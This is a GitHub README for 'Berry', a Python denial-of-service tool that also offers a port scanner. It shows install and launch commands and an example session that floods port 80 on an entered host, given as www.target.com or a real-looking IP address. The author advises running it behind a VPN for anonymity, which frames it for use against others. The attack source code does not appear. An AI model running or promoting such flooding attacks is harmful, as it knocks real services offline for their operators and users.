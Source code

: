 ### Berry
Berry is a simple DDoS script  Currently it is under no proxy so provided you have a VPN on, DO NOT USE! Proxy will later be implemented for security and anonymity purposes.

### Size
N/A

### Amplified DoS Attack
N/A

### Version
Currently in beta: v0.0.1

### Install Requirements
```
root@strrrry:~/berry# pip install -r requirements.txt
```

### Run Berry
```
root@strrrry:~/berry/berry# python berry.py

	  ,/         \.  
	 ((           )) 
	  \`.       ,'   
	   )')     (`(	  
	 ,'`/       \,`. 
	(`-(         )-')
	  \-')     (`-/  
	  /`'       `'\  
	 (  _       _  ) 
	 | ( \     / ) | 
	 |  `.\   /,'  | 
	 |    `\ /'    | 
	 (             ) 
	  \           /  
	   \         /   
	    `.     ,'    
	      `-.-'      
	             [v0.0.1]

Select option:

	 [1] Berry DDoSer
	 [2] Berry Port Scanner (Currently Still in Beta)
	 [3] Berry Web

0) To Exit


berry > 
```

### Example
```
root@strrrry:~/berry/berry# python berry.py

	  ,/         \.  
	 ((           )) 
	  \`.       ,'   
	   )')     (`(	  
	 ,'`/       \,`. 
	(`-(         )-')
	  \-')     (`-/  
	  /`'       `'\  
	 (  _       _  ) 
	 | ( \     / ) | 
	 |  `.\   /,'  | 
	 |    `\ /'    | 
	 (             ) 
	  \           /  
	   \         /   
	    `.     ,'    
	      `-.-'      
	             [v0.0.1]

Select option:

	 [1] Berry DDoSer
	 [2] Berry Port Scanner (Currently Still in Beta)
	 [3] Berry Web

0) To Exit


berry > 1

NOTE - Enter IP or URL

[!] DDoS Mode Loading
Enter Host: www.target.com or http://www.target.com or 72.246.56.200
Number of Packets: 5
<--Loading DDoS Attack-->
[Wed Jul  8 18:38:22 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
[Wed Jul  8 18:38:23 2015] [Attack Serving on port: 80]
[72.246.56.200]
root@strrrry:~/berry/berry#
```